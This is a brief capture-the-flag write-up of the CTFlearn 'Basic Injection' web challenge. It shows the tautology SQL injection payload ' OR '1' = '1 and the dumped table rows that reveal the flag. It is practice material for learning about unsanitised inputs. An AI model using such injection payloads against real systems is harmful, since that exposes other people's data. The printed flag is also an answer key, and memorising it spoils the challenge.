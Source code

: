 ## Basic Injection
The main idea finding the flag using basic SQL Injections to insecure web page.


#### Problem Statement:
<p align="center">
<img src="resources/images/Basic Injection.png">
<br>


#### Step-1:
After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

#### WebPage:
<p align="center">
<img src="resources/images/WebPage.png">
<br>

#### Step-2:
I tried basic SQL payloads the existing database.

I tried `' OR '1' = '1`

I got the following output.
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

#### The Flag is obtained:
`th4t_is_why_you_n33d_to_sanitiz3_inputs`

